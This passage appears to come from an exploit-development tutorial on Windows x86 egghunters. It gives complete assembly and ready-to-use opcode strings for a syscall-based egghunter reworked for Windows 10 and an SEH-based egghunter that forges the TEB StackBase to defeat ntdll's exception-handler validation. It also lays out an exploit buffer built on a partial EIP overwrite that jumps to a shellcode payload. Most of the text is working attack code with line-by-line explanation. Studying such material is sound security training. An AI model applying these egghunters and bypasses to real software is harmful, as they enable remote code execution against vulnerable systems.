; Egg: "w00tw00t" (0x74303077 repeated twice)
; Size: ~32 bytes (base version)
; ============================================================

loop_inc_page:
    or dx, 0x0FFF          ; Align EDX to last byte of current page

loop_inc_one:
    inc edx                ; Advance to next address

loop_check:
    push edx               ; Save current address (EDX may be trashed by syscall)
    push 0x02              ; Push syscall number for NtAccessCheckAndAuditAlarm
    pop eax                ; EAX = 0x02 (syscall index)
    int 0x2E               ; Invoke kernel via software interrupt
                           ; EDX = address to probe (passed to kernel)

    cmp al, 0x05           ; Check low byte of return value for ACCESS_VIOLATION
    pop edx                ; Restore EDX (regardless of result)

loop_check_valid:
    je loop_inc_page       ; If access violation, skip to next page

is_egg:
    mov eax, 0x74303077    ; Load egg signature ("w00t" in little-endian)
    mov edi, edx           ; Point EDI at current address for SCASD
    scasd                  ; Compare DWORD at [EDI] with EAX; EDI += 4
    jnz loop_inc_one       ; No match — advance one byte and retry

    scasd                  ; Check second DWORD (completes "w00tw00t")
    jnz loop_inc_one       ; Second half mismatch — false positive, advance

matched:
    jmp edi                ; EDI points past the 8-byte egg, into the payload
```

### Instruction-by-Instruction Walkthrough

Every line of this stub deserves examination. The compactness is not accidental — each instruction choice was made to save bytes, avoid null bytes, or work around specific register constraints.

---

#### `or dx, 0x0FFF` — Page Alignment

```
loop_inc_page:
    or dx, 0x0FFF
```

**What it does:** Performs a bitwise OR of the low 16 bits of EDX (`DX`) with `0x0FFF`.

**Why `DX` and not `EDX`:** The `OR DX, imm16` encoding (`\x66\x81\xCA\xFF\x0F`) avoids encoding `0x0FFF0FFF` (the 32-bit version), which would require a longer encoding and could produce null bytes depending on the immediate value. More importantly, using DX means the operation affects only the lower 16 bits. Any address up to `0xFFFF0000` will have its low 12 bits set to 1 without altering the upper 16 bits — and for addresses in the 32-bit user space (below `0x80000000`), the upper 16 bits of EDX are unchanged.

**The page arithmetic:** Memory pages are 0x1000 bytes


 (4096 bytes) aligned on 0x1000 boundaries. A page that starts at address `0xABCD1000` spans `0xABCD1000–0xABCD1FFF`. The last address in that page is `0xABCD1FFF`. To jump from any address within the page to the last address of the same page: `OR DX, 0x0FFF` sets bits 0–11 of the address, regardless of their original values. Then `INC EDX` crosses the boundary from `0x...FFF` to `0x...000` — the first address of the next page.

**Why skip the whole page:** If the first address in a page is inaccessible, all addresses in that page are inaccessible. Windows commits memory in page-granularity units. There are no committed pages where byte N is inaccessible and byte N+1 is accessible within the same page. Once the system call for address 0 of a page returns access violation, no further checking in that page is necessary.

---

#### `inc edx` — Address Advancement

```
loop_inc_one:
    inc edx
```

**What it does:** Increments EDX by 1.

**Why EDX:** EDX serves as the memory address pointer throughout the egghunter. The choice of EDX is not arbitrary. On x86, calling conventions (cdecl, stdcall) specify that EAX, ECX, and EDX are caller-saved (volatile across function calls). The system call via `INT 0x2E` may modify these registers. EDX, specifically, may be trashed by some system calls — but since we save EDX on the stack before the call and restore it after, this is managed. The more important reason EDX is used: `INC EDX` encodes as `\x42` (one byte), making it the most compact way to advance the pointer.

**Byte-level advancement:** The loop advances EDX by one byte at each iteration (in the non-page-skip path). This ensures every byte of every mapped page is checked as a potential start of the egg. Advancing by more than one byte would risk missing an egg that spans a boundary where you skipped.

---

#### `push edx` / `push 0x02` / `pop eax` — Syscall Setup

```
loop_check:
    push edx       ; Preserve current address across syscall
    push 0x02      ; Push syscall number
    pop eax        ; EAX = 0x02
```

**Why push/pop instead of `mov eax, 0x02`:** `MOV EAX, 0x02` encodes as `\xB8\x02\x00\x00\x00` — five bytes, three of which are null bytes. The null bytes would terminate the egghunter when it passes through a null-truncating function. `PUSH 0x02; POP EAX` encodes as `\x6A\x02\x58` — three bytes, no nulls. The push-pop pattern for loading small immediate values into registers is a fundamental null-byte avoidance technique in shellcode.

**Why save EDX before the call:** The kernel's system call handler may or may not preserve EDX. System call documentation does not guarantee EDX preservation for all system calls. By pushing EDX before the call and popping it after (regardless of whether access was granted or denied), the egghunter guarantees its address counter survives the transition.

**The parameter:** `NtAccessCheckAndAuditAlarm` receives the address to probe in EDX by convention for this egghunter. When `INT 0x2E` is executed with EAX=2 (or the correct syscall index), the kernel dispatches to `NtAccessCheckAndAuditAlarm`. The kernel code for this syscall accesses the memory region pointed to by one of its parameters, and EDX happens to hold the current probe address because the egghunter has not placed anything else there since the last `INC EDX`.

---

#### `int 0x2E` — The System Call Invocation

```
    int 0x2E
```

**What it does:** Raises software interrupt 0x2E, which is the Windows legacy system call gate. Control transfers to the kernel, which executes the SSDT-indexed handler in EAX and returns to user mode.

**Why `INT 0x2E` and not `SYSENTER`:**


 `INT 0x2E` is the x86 instruction encoding `\xCD\x2E` — two bytes, no null bytes. `SYSENTER` (`\x0F\x34`) is also two bytes, but the stack setup required for SYSENTER (saving EIP in ECX and ESP in EDX before the call) destroys the egghunter's address pointer in EDX and requires additional bytes to restore. `INT 0x2E` is simpler and does not require pre-call stack preparation beyond what is already done.

**Legacy vs. fast path:** On modern Windows, `INT 0x2E` still works but routes through additional compatibility shim code. The SYSENTER/SYSCALL fast path is more efficient for production code, but the performance difference is irrelevant for egghunter purposes. Correctness matters; speed does not.

---

#### `cmp al, 0x05` / `pop edx` — Result Checking

```
    cmp al, 0x05
    pop edx
```

**What it does:** `CMP AL, 0x05` subtracts `0x05` from the low byte of EAX and sets flags without storing the result. This checks whether the low byte of the return value equals the low byte of `STATUS_ACCESS_VIOLATION` (`0xC0000005`).

**Why `AL` and not `EAX`:** `CMP EAX, 0xC0000005` encodes the constant `0xC0000005` as four bytes — `\x05\x00\x00\xC0`. The first byte is fine, but bytes 2 and 3 are null. The instruction encoding would be `\x3D\x05\x00\x00\xC0` — containing two null bytes. Using `AL` avoids this: `CMP AL, 0x05` encodes as `\x3C\x05`. Checking only the low byte works because `STATUS_ACCESS_VIOLATION` is the only NTSTATUS code the kernel returns from this system call whose low byte is `0x05`.

**`POP EDX` after the check:** This restores EDX from the stack regardless of the comparison result. It must appear before the conditional jump so that EDX is valid in both branches. If the access was a violation, the jump-if-equal takes EDX to `loop_inc_page`. If not, execution falls through to the egg check with EDX still pointing to the probed address.

---

#### `je loop_inc_page` — Page Skip on Violation

```
loop_check_valid:
    je loop_inc_page
```

**What it does:** If ZF is set (meaning `AL == 0x05`, meaning access violation), jump back to `loop_inc_page`. This aligns EDX to the end of the current page and increments into the next.

**Why not check for other error codes:** The egghunter is a blunt instrument. If the kernel returns *any* error whose low byte is not `0x05`, the egghunter falls through and treats the address as accessible — then begins checking for the egg. If the actual access attempt fails for a different reason, the read during `SCASD` (in the `is_egg` block) may fault. In practice, the primary failure mode for valid but uninteresting addresses is that the egg is not present there, so the `JNZ` in the egg-checking section sends execution back to `loop_inc_one` before any dangerous dereference occurs. The egghunter is designed for the common case; exotic page states are handled adequately by the egg-mismatch path.

---

#### `mov eax, 0x74303077` — Load Egg Signature

```
is_egg:
    mov eax, 0x74303077
```

**What it does:** Loads the 4-byte egg signature into EAX. `0x74303077` is the little-endian representation of the ASCII string `w00t`:
- `0x77` = `'w'`
- `0x30` = `'0'`
- `0x30` = `'0'`
- `0x74` = `'t'`

In memory (at a given address `X`): `w(0x77) 0(0x30) 0(0x30) t(0x74)`. When read as a 32-bit little-endian DWORD, the byte at address `X` is the least significant byte, giving `0x74303077`.

**No null bytes:** The value `0x74303077` contains no null bytes, passes the bad-character filter, and can be encoded as `\xB8\x77\x30\x30\x74` — `MOV EAX, imm32` with no problematic bytes.

**This instruction destroys the previous EAX value** (which held the syscall return code). That is intentional and harmless — the comparison result was already captured in the ZF flag before this instruction.

---

#### `mov edi, edx` — Point EDI at Probe Address

```
    mov edi, edx
```

**What it does:** Copies the current address from EDX into EDI.

**Why EDI specifically:** The `SCASD` instruction is a string operation whose source is always `[EDI]`. `SCASD` compares the DWORD at the memory address pointed to by EDI with EAX, sets flags, and automatically increments EDI by 4 (in the default forward direction, with EFLAGS.DF=0). This register constraint is architectural — you cannot use `SCASD` with any other register as the source. Loading the probe address into EDI before calling `SCASD` is mandatory.

**Why not use EDI as the main counter:** EDX is the counter rather than EDI because `SCASD` mutates EDI. If EDI were the counter, the comparison instruction would advance it by 4 and the loop would skip bytes. Using EDX as the true counter and copying to EDI only for the comparison operation keeps the pointer and the comparison register independent.

---

#### `scasd` — String Scan for DWORD

```
    scasd
    jnz loop_inc_one

    scasd
    jnz loop_inc_one
```

**What SCASD does:** `SCASD` (*Scan String DWORD*) performs these operations atomically:
1. Compare `EAX` with the DWORD at `[EDI]` (sets flags accordingly)
2. `EDI += 4` (if EFLAGS.DF == 0, which is the default direction)

The comparison sets `ZF=1` if the values are equal, `ZF=0` if not. `JNZ` (jump if not zero) jumps if `ZF=0`, i.e., if the values were not equal.

**Why `SCASD` and not `CMP [EDX], EAX`:**


![SCASD — compare [EDI] with EAX; EDI += 4](../images/sc84-scasd.png)




 `SCASD` is a single byte (`\xAF`), the most compact possible encoding for this comparison. `CMP [EDX], EAX` would require a ModRM encoding for the memory operand and would not automatically advance the pointer. `SCASD` with EDI saves bytes and handles the pointer advance to the second DWORD automatically.

**The double check:** Two consecutive `SCASD` instructions check eight bytes of memory: the first four bytes against `0x74303077`, then — if EDI has been advanced by 4 — the next four bytes against the same value. If both match, the location `[EDI-8]` contains `w00tw00t`. After both `SCASD` instructions succeed (neither `JNZ` fires), EDI has been advanced by 8 and points to the byte immediately after the egg — the first byte of the payload.

**Edge case — false positive on single match:** If only the first `SCASD` matches and the second does not, the second `JNZ` fires and sends execution to `loop_inc_one`. EDX is incremented by 1 from its original value, not by 4. This means the egghunter will begin scanning again from `EDX_original + 1`, even though EDI was advanced by 8. This is correct behavior: the match starting at `EDX_original` was a half-match, not a full egg, so the search continues from the very next address.

---

#### `jmp edi` — Execute the Payload

```
matched:
    jmp edi
```

**What it does:** Transfers execution to the address in EDI.

**Why this is correct:** After both `SCASD` instructions succeed, EDI has been incremented by 4 twice — a total advance of 8 bytes from where the first `SCASD` started. Since the first `SCASD` pointed at the first byte of `w00tw00t`, EDI after both matches points to the byte at offset 8 from the start of the egg — which is the first byte of the shellcode payload. `JMP EDI` executes the payload directly without any further indirection.



---

### The Null Byte Problem: System Call Number Versioning

The base syscall-based egghunter uses `PUSH 0x02; POP EAX` to load the system call number for `NtAccessCheckAndAuditAlarm`. On Windows XP, the system call number for this function was `0x02`. This encoding produces no null bytes.

On Windows 10, the system call numbers have been renumbered.


 `NtAccessCheckAndAuditAlarm` is now at index `0x1C8`. Verifying in WinDbg:

```
0:001> u ntdll!NtAccessCheckAndAuditAlarm
ntdll!NtAccessCheckAndAuditAlarm:
77d7c2f0  b8c8010000      mov eax,1C8h
77d7c2f5  ba90e4d777      mov edx,offset ntdll!Wow64SystemServiceCall
```

Naively encoding `PUSH 0x1C8; POP EAX` would require a `PUSH imm16` with value `0x01C8`, encoding as `\x68\xC8\x01\x00\x00` — three null bytes. Using `MOV EAX, 0x1C8` encodes as `\xB8\xC8\x01\x00\x00` — still three null bytes. Either approach produces a shellcode that self-terminates before the system call number reaches EAX.

The solution is arithmetic negation. Instead of encoding the value directly, encode its two's complement negative and negate it at runtime:

```
0 - 0x1C8 = 0xFFFFFE38
```

WinDbg confirms:

```
0:001> ? 0x00 - 0x1C8
Evaluate expression: -456 = fffffe38
```

The revised code:

```asm
loop_check:
    push edx
    mov eax, 0xFFFFFE38    ; \xB8\x38\xFE\xFF\xFF — no null bytes
    neg eax                 ; EAX = -(0xFFFFFE38) = 0x000001C8
    int 0x2E               ; Syscall with EAX = 0x1C8
    cmp al, 0x05
    pop edx
```

`MOV EAX, 0xFFFFFE38` encodes as `\xB8\x38\xFE\xFF\xFF`


 — no null bytes. `NEG EAX` encodes as `\xF7\xD8` — two bytes, no nulls. The two's complement negation of `0xFFFFFE38` in 32-bit arithmetic is `0x000001C8`, which is precisely `0x1C8`. The system call fires correctly.

The Keystone-generated opcodes for the full Windows 10-compatible egghunter:


```
\x66\x81\xca\xff\x0f  — or dx, 0x0fff
\x42                  — inc edx
\x52                  — push edx
\xb8\x38\xfe\xff\xff  — mov eax, 0xfffffe38
\xf7\xd8              — neg eax
\xcd\x2e              — int 0x2e
\x3c\x05              — cmp al, 0x05
\x5a                  — pop edx
\x74\xeb              — je loop_inc_page (-21 bytes)
\xb8\x77\x30\x30\x74  — mov eax, 0x74303077
\x89\xd7              — mov edi, edx
\xaf                  — scasd
\x75\xe6              — jnz loop_inc_one (-26 bytes)
\xaf                  — scasd
\x75\xe3              — jnz loop_inc_one (-29 bytes)
\xff\xe7              — jmp edi
```

Total: **35 bytes**. Well within the 251-byte budget.


The complete exploit buffer structure at this point:

```
[  7 bytes  ] Conditional jump (XOR ECX, ECX; TEST ECX, ECX; JZ +0x11)
[  1 byte   ] Space character ' '
[  1 byte   ] Forward slash '/'
[ 35+ bytes ] Egghunter (8x NOP prefix + 27 bytes of egghunter code)
[211 bytes  ] Filler (A * remaining)
[  3 bytes  ] Partial EIP overwrite (POP EAX; RET address, 3 bytes)
[  4 bytes  ] HTTP terminator (\r\n\r\n)
[  8 bytes  ] Egg marker (w00tw00t)
[400+ bytes ] Shellcode payload
```

---

## The SEH-Based Egghunter: Portability Without System Call Numbers

The syscall-based egghunter has a critical limitation: it hardcodes a system call number. Windows updates system call tables between major releases, minor releases, and even some cumulative updates. An egghunter that works against Windows 10 Build 19041 may fail against Build 22000 if the `NtAccessCheckAndAuditAlarm` index changes. Maintaining a table of correct system call numbers per build is operationally inconvenient and can silently cause an egghunter to loop infinitely in the wrong system call.

The SEH-based egghunter eliminates this dependency. Instead of issuing a system call to probe memory safety, it installs a custom Structured Exception Handler. When `REPE SCASD` faults on an inaccessible address, the Windows exception dispatcher calls the egghunter's own handler, which modifies the saved EIP in the exception context to skip past the faulting instruction to the page-advance code.

This approach is smaller (fewer bytes needed for the probe mechanism), version-independent (uses the Windows exception framework rather than a versioned syscall), and does not require knowing which system call provides a safe memory probe.

### Design Overview

The SEH-based egghunter uses three distinct code blocks that are carefully interconnected through CALL/POP mechanics:

1. **`start`:** A forward `JMP` to `get_seh_address`
2. **`build_exception_record`:** Constructs the custom SEH record and installs it in the TEB
3. **`is_egg`:** The main scanning loop using `REPE SCASD`
4. **`loop_inc_page` / `loop_inc_one`:** Page and byte advance logic
5. **`get_seh_address`:** Uses `CALL` to capture a PIC address, then falls through to the exception handler
6. **Exception handler code:** Embedded after the `CALL` instruction, reached only during exception dispatch

### The CALL/POP Technique


Position-independent code needs to know its own address at runtime without relying on a fixed base. The CALL/POP technique is the classic x86 mechanism for this:

```asm
get_seh_address:
    call build_exception_record    ; PUSH return address (= address of next instruction)
                                   ; JMP to build_exception_record
    ; [exception handler code follows here — executed only by SEH dispatch]
    push 0x0C
    pop  ecx
    ...
```

When `CALL build_exception_record` executes, the processor pushes the address of the instruction immediately following the `CALL` onto the stack — which is the address of `PUSH 0x0C`. This is the start of the exception handler code. Then execution jumps to `build_exception_record`.

Inside `build_exception_record`:


![XOR EBX, EBX — zero EBX for FS:[0] offset](../images/sc133-xor-ebx.png)

![MOV FS:[EBX], ESP — install SEH record at FS:[0]](../images/sc134-fs0-install.png)


```asm
build_exception_record:
    pop ecx                        ; ECX = address of exception handler code
    mov eax, 0x74303077            ; EAX = egg signature
    push ecx                       ; Push handler address (EXCEPTION_REGISTRATION_RECORD.Handler)
    push 0xFFFFFFFF                ; Push -1 (EXCEPTION_REGISTRATION_RECORD.Next = no next record)
    xor ebx, ebx                   ; EBX = 0
    mov dword ptr fs:[ebx], esp    ; FS:[0] = &our EXCEPTION_REGISTRATION_RECORD
```

After `POP ECX`, ECX holds the address of the exception handler code. The stack currently has this structure:

```
[ESP]   = EXCEPTION_REGISTRATION_RECORD.Handler  (=ECX = address of handler)
[ESP+4] = EXCEPTION_REGISTRATION_RECORD.Next     (=0xFFFFFFFF)
```

Writing `ESP` to `FS:[0]` installs this stack-resident structure as the head of the exception chain for the current thread. `FS:[0]` is the `ExceptionList` field of the Thread Environment Block (TEB), and always points to the current `_EXCEPTION_REGISTRATION_RECORD` at the head of the chain.



### The REPE SCASD Scan

With the exception handler installed, the scanning loop uses `REPE SCASD` (Repeat While Equal, Scan String DWORD) to check both DWORDs of the egg signature in a single instruction:

```asm
is_egg:
    push 0x02
    pop ecx                        ; ECX = 2 (repeat count)
    mov edi, ebx                   ; EDI = current address (EBX is the counter)
    repe scasd                     ; Compare EAX ("w00t") against [EDI], EDI+=4, ECX--
                                   ; Repeat while equal, ECX times
    jnz loop_inc_one               ; Not a complete match — advance one byte
    jmp edi                        ; Match found — jump to payload
```

`REPE SCASD` operates as follows:


- If `ECX == 0`, stop immediately (regardless of comparison)
- Compare `EAX` with `DWORD PTR [EDI]`
- Set flags based on comparison
- `EDI += 4`, `ECX -= 1`
- If `ZF == 1` (equal) AND `ECX != 0`, repeat
- If `ZF == 0` (not equal) OR `ECX == 0`, stop

With `ECX = 2`:
- First iteration: Compare `[EBX]` with `0x74303077`; if equal, continue
- Second iteration: Compare `[EBX+4]` with `0x74303077`; if equal and `ECX=0`, stop with `ZF=1`
- After both match: `ZF=1`, `EDI = original_EBX + 8`

If an invalid page is accessed during either comparison, an access violation exception fires, the Windows exception dispatcher walks the SEH chain, finds the egghunter's custom record, and calls the handler code.

**Why this is superior to two sequential `SCASD` instructions:** `REPE SCASD` checks both DWORDs in a single instruction. The benefit is code size — the idiom is more compact. The tradeoff is that exception handling during `REPE SCASD` requires knowing which iteration caused the fault, since EIP on fault points to the beginning of the `REPE SCASD` instruction, not a position within it.

### The Exception Handler

When `REPE SCASD` faults on an invalid address, Windows calls the thread's top-of-chain exception handler with four arguments:

```c
typedef EXCEPTION_DISPOSITION (*PEXCEPTION_ROUTINE)(
    IN     PEXCEPTION_RECORD      ExceptionRecord,
    IN     PVOID                  EstablisherFrame,
    IN OUT PCONTEXT               ContextRecord,
    IN OUT PDISPATCHER_CONTEXT    DispatcherContext
);
```

The third argument, `ContextRecord`, is a pointer to a `_CONTEXT` structure


 that contains the saved register state at the time of the exception. Crucially, this includes `EIP` — the address of the faulting instruction. By modifying `ContextRecord->Eip`, the exception handler can control where execution resumes when the handler returns `ExceptionContinueExecution` (value 0).

The `EIP` field is at offset `0xB8` within the `_CONTEXT` structure:

```
0:001> dt ntdll!_CONTEXT
...
+0x0b8 Eip  : Uint4B
```

The exception handler:

```asm
; [This code is reached only by SEH dispatch — not by normal execution flow]
; Stack on entry to handler:
;   [ESP+00] = return address (for this function call frame)
;   [ESP+04] = ExceptionRecord*
;   [ESP+08] = EstablisherFrame*
;   [ESP+0C] = ContextRecord*
;   [ESP+10] = DispatcherContext*

    push 0x0C
    pop ecx                        ; ECX = 0x0C
    mov eax, [esp + ecx]           ; EAX = *(ESP + 0x0C) = ContextRecord*
    mov cl, 0xB8                   ; CL = 0xB8 (note: ECX was 0x0C, now CL=0xB8, ECX=0xB8)
    add dword ptr [eax + ecx], 6   ; ContextRecord->Eip += 6 (skip REPE SCASD, land at loop_inc_page)
    pop eax                        ; Restore saved return address
    add esp, 0x10                  ; Destroy exception handler frame (4 parameters * 4 bytes)
    push eax                       ; Re-push return address for RET
    xor eax, eax                   ; EAX = 0 (ExceptionContinueExecution)
    ret                            ; Return from handler — execution resumes at modified EIP
```

**Step by step:**


![MOV EAX, [ESP+ECX] — dereference to obtain CONTEXT*](../images/sc147-mov-eax-context.png)


![ADD [EAX+ECX], 6 — patch saved EIP to skip REPE SCASD](../images/sc149-add-eip-6.png)


1. `PUSH 0x0C; POP ECX`: ECX = 12. This is the offset from ESP (at this point in the function) to the `ContextRecord*` argument. The stack on handler entry has the return address at `[ESP]` and the four arguments starting at `[ESP+4]`. After `PUSH 0x0C` executes, ESP decreases by 4, making the layout: `[ESP]` = 0x0C, `[ESP+4]` = return address, `[ESP+8]` = ExceptionRecord*, `[ESP+0C]` = EstablisherFrame*, `[ESP+10]` = ContextRecord*, `[ESP+14]` = DispatcherContext*. After `POP ECX`, ECX = 0x0C and ESP advances by 4, back to the state where `[ESP]` = return address and `[ESP+0C]` = ContextRecord*.

2. `MOV EAX, [ESP+ECX]`: Dereferences `ESP+0x0C`, which holds the pointer to the `_CONTEXT` structure. EAX now contains `ContextRecord*`.

3. `MOV CL, 0xB8`: Loads the low byte of ECX with `0xB8`. Note that ECX at this point holds `0x0000000C`; writing to `CL` gives `0x000000B8`. This avoids a null byte: `MOV ECX, 0xB8` would encode as `\xB9\xB8\x00\x00\x00` (three null bytes).

4. `ADD DWORD PTR [EAX+ECX], 6`: Adds 6 to the DWORD at `ContextRecord + 0xB8`, which is `ContextRecord->Eip`. The faulting instruction is `REPE SCASD`. Adding 6 to that EIP advances past `REPE SCASD` (which encodes as `\xF3\xAF`, 2 bytes) and `JNZ loop_inc_one` (2 bytes) and `JMP EDI` (2 bytes) — landing at `loop_inc_page`. The `or bx, 0xFFF; inc ebx; jmp is_egg` sequence then advances the counter past the faulting page.

5. `POP EAX`: Restores the return address into EAX (which was at [ESP] before the pops in steps 1-3 rebalanced the stack).

6. `ADD ESP, 0x10`: Cleans up the exception handler stack frame. The Windows exception dispatcher pushed 4 DWORD arguments before calling the handler. `0x10 = 4 * 4`. This destroys those arguments from the stack perspective.

7. `PUSH EAX; XOR EAX, EAX; RET`: Re-pushes the return address, zeroes EAX (return value = `ExceptionContinueExecution = 0`), and returns. The Windows dispatcher sees `EAX=0`, reads the modified EIP from the context, and resumes execution there.



### SEH Validation: The Four Checks in `ntdll!RtlDispatchException`

The initial implementation of the SEH-based egghunter fails in practice on modern Windows. The Windows exception dispatcher in `ntdll!RtlDispatchException` validates custom SEH records before calling their handlers. This validation was introduced as a security measure against SEH-overwrite attacks (where attackers corrupt the existing SEH chain rather than installing a fresh one). The check sequence is as follows.

Running the egghunter without modification results in the exception handler never being invoked


![dt _NT_TIB — StackBase at FS:[4], StackLimit at FS:[8]](../images/sc179-dt-nt-tib.png)
: the dispatcher silently skips the custom record and the egghunter loops indefinitely across access violations.

To understand and fix this, it is necessary to reverse `ntdll!RtlDispatchException`. The function retrieves stack limits from the TEB's `_NT_TIB` structure via `ntdll!RtlpGetStackLimits`:

```c
typedef struct _NT_TIB {
    PEXCEPTION_REGISTRATION_RECORD ExceptionList;  // FS:[0]
    PVOID StackBase;                               // FS:[4]
    PVOID StackLimit;                              // FS:[8]
    ...
} NT_TIB;
```

`StackBase` is the highest address of the stack region (the address where the stack *starts*, before growing downward). `StackLimit` is the lowest currently committed address of the stack. The checks performed, in order:

**Check 1: Record address must be above StackLimit**


![IDA — EDI loaded from FS:[0] (head of ExceptionList)](../images/sc181-edi-fs0.png)


![IDA — MOV ESI,[EAX+4] (StackBase); MOV EAX,[EAX+8] (StackLimit)](../images/sc183-mov-esi-eax.png)


```
_EXCEPTION_REGISTRATION_RECORD* ptr >= StackLimit
```

The SEH chain is expected to live on the stack. Records located below the committed stack region are invalid. An egghunter that installs its exception record at an address lower than `StackLimit` fails this check.

**Check 2: Record must fit within the stack**


```
(_EXCEPTION_REGISTRATION_RECORD* ptr + 8) <= StackBase
```

The record is 8 bytes (`Next` DWORD + `Handler` DWORD). The entire record must fit within the stack region, so `ptr + 8` must be at or below `StackBase`.

**Check 3: Record must be 4-byte aligned**


```
(ptr & 0x3) == 0
```

Exception records must be naturally aligned to 4-byte boundaries, matching the alignment requirement of the DWORD fields within them.

**Check 4: Handler address must be above StackBase**


```
_EXCEPTION_REGISTRATION_RECORD.Handler >= StackBase
```

This is the most important check for the egghunter. The handler function (the code the dispatcher will call) must reside outside the stack. This check is intended to prevent attackers from pointing handlers into stack-resident shellcode. Unfortunately, the egghunter's handler code *is* stack-resident (it is embedded in the same shellcode executing on the stack). This check causes the validation to fail.

The state of the egghunter's SEH record at install time:

- The record is at `ESP` when it is installed (stack-resident: checks 1–3 pass)
- The handler is the address captured by `CALL/POP`: it points into the egghunter code, which is on the stack
- StackBase > handler address: check 4 fails
- The dispatcher silently skips the record

### Fixing the SEH Egghunter: Subverting the StackBase Check

The fix is to forge the `StackBase` value in the TEB to be lower than the handler address. If `StackBase` is set to a value smaller than the handler function's address, check 4 passes. This sounds dangerous, but the TEB fields are writable from user mode — they are just memory — and for the duration of the egghunter execution, the correct stack bounds are irrelevant to the egghunter's logic (it does not use the stack for anything that depends on StackBase being accurate).

The additional instructions in the fixed `build_exception_record`:

```asm
build_exception_record:
    pop ecx                         ; ECX = handler address
    mov eax, 0x74303077             ; EAX = egg signature
    push ecx                        ; Handler field
    push 0xFFFFFFFF                 ; Next field (-1)
    xor ebx, ebx                    ; EBX = 0
    mov dword ptr fs:[ebx], esp     ; FS:[0] = &our SEH record (installs ExceptionList)

    ; NEW: Forge StackBase to pass handler address check
    sub ecx, 0x04                   ; ECX = handler_address - 4 (just below handler)
    add ebx, 0x04                   ; EBX = 4 (FS:[4] is StackBase)
    mov dword ptr fs:[ebx], ecx     ; FS:[4] = handler_address - 4 (new "StackBase")
```

**How this works:**

- `SUB ECX, 0x04`: ECX was the handler address. Subtracting 4 gives an address just below the handler.
- `ADD EBX, 0x04`: EBX was 0 (used for `FS:[0]`). Adding 4 makes it 4 (used for `FS:[4]`).
- `MOV FS:[EBX], ECX`: Writes the new "StackBase" value to `FS:[4]`.

Now the TEB contains:
- `FS:[0]` (ExceptionList) = pointer to our custom SEH record on the stack
- `FS:[4]` (StackBase) = handler_address - 4 (forged to be just below the handler)

Check 4 becomes: `handler >= StackBase`
![Fixed Keystone script: SUB ECX,4; ADD EBX,4; MOV FS:[EBX],ECX](../images/sc204-fixed-seh-script.png)


 → `handler_address >= handler_address - 4` → `True`. The check passes. The dispatcher validates the record and calls the handler when `REPE SCASD` faults.

Note that simultaneously, the SEH record itself is at `ESP`, which was originally between `StackLimit` and the original `StackBase`. After forging `StackBase` to `handler_address - 4`, check 2 becomes: `(ESP+8) <= (handler_address - 4)`. Since the handler address is in the egghunter code (which is above the stack frame), and the stack frame is below the handler, this should hold. Care must be taken that `ESP+8 < handler_address - 4`, which is satisfied as long as there are at least 12 bytes between the top of the stack and the handler code — a condition that is always true given the placement of the exception record on the stack and the handler code immediately after the CALL instruction.

### Complete SEH Egghunter Assembly

```asm
; ============================================================
; SEH-Based Egghunter
; Target: Windows x86 (32-bit), version-independent
; Egg: "w00tw00t" (0x74303077 repeated twice)
; Size: ~60 bytes
; ============================================================

start:
    jmp get_seh_address                     ; Jump forward to obtain handler address

build_exception_record:
    pop ecx                                 ; ECX = address of exception handler code
    mov eax, 0x74303077                     ; EAX = egg signature ("w00t")
    push ecx                                ; _EXCEPTION_REGISTRATION_RECORD.Handler = ECX
    push 0xFFFFFFFF                         ; _EXCEPTION_REGISTRATION_RECORD.Next = -1 (terminal)
    xor ebx, ebx                            ; EBX = 0
    mov dword ptr fs:[ebx], esp             ; FS:[0] = pointer to our SEH record on stack
    sub ecx, 0x04                           ; ECX = handler_address - 4 (new StackBase)
    add ebx, 0x04                           ; EBX = 4 (offset of StackBase in TEB)
    mov dword ptr fs:[ebx], ecx             ; FS:[4] = forged StackBase

is_egg:
    push 0x02
    pop ecx                                 ; ECX = 2 (REPE repeat count)
    mov edi, ebx                            ; EDI = EBX (current search address)
    repe scasd                              ; Compare [EDI] and [EDI+4] against EAX ("w00t")
    jnz loop_inc_one                        ; Mismatch — advance by 1 byte
    jmp edi                                 ; Match — execute payload at EDI

loop_inc_page:
    or bx, 0x0FFF                           ; Align EBX to last byte of current page

loop_inc_one:
    inc ebx                                 ; Advance address by 1
    jmp is_egg                              ; Repeat

get_seh_address:
    call build_exception_record             ; PUSH return address (= exception handler start)
                                            ; then JMP to build_exception_record

; ----- Exception Handler Code -----
; [Only reached by SEH dispatch, not by normal execution]

    push 0x0C
    pop ecx                                 ; ECX = offset to ContextRecord* on exception stack
    mov eax, [esp + ecx]                    ; EAX = ContextRecord*
    mov cl, 0xB8                            ; CL = offset of EIP within _CONTEXT
    add dword ptr [eax + ecx], 0x06        ; ContextRecord->Eip += 6 (skip to loop_inc_page)
    pop eax                                 ; Restore return address
    add esp, 0x10                           ; Tear down exception handler call frame
    push eax                                ; Re-push return address for RET
    xor eax, eax                            ; EAX = 0 (ExceptionContinueExecution)
    ret                                     ; Return from handler
```

Generated opcodes (from Keystone):

```
\xeb\x2a                   — jmp get_seh_address
\x59                       — pop ecx
\xb8\x77\x30\x30\x74      — mov eax, 0x74303077
\x51                       — push ecx
\x6a\xff                   — push -1
\x31\xdb                   — xor ebx, ebx
\x64\x89\x23               — mov [fs:ebx], esp
\x83\xe9\x04               — sub ecx, 4
\x83\xc3\x04               — add ebx, 4
\x64\x89\x0b               — mov [fs:ebx], ecx
\x6a\x02                   — push 2
\x59                       — pop ecx
\x89\xdf                   — mov edi, ebx
\xf3\xaf                   — repe scasd
\x75\x07                   — jnz loop_inc_one
\xff\xe7                   — jmp edi
\x66\x81\xcb\xff\x0f      — or bx, 0x0fff
\x43                       — inc ebx
\xeb\xed                   — jmp is_egg
\xe8\xd1\xff\xff\xff      — call build_exception_record
\x6a\x0c                   — push 0x0c
\x59                       — pop ecx
\x8b\x04\x0c               — mov eax, [esp+ecx]
\xb1\xb8                   — mov cl, 0xb8
\x83\x04\x08\x06           — add [eax+ecx], 6
\x58                       — pop eax
\x83\xc4\x10               — add esp, 0x10
\x50                       — push eax
\x31\xc0                   — xor eax, eax
\xc3                       — ret
```

Total: **60 bytes**. Still fits comfortably in the 251-byte buffer


![After MOV FS:[EBX], ESP — SEH chain overwritten](../images/sc164-seh-overwrite-step.png)


 when combined with the 8-byte NOP prefix and the conditional jump redirect code.

---

## Debugging Methodology

Debugging an egghunter requires a different mindset than debugging a vanilla stack overflow. The egghunter may traverse tens of thousands of memory pages before finding the egg, generating hundreds of access violation exceptions along the way. A debugger naively stopped on each access violation would be unusable. The following methodology structures the debugging process.

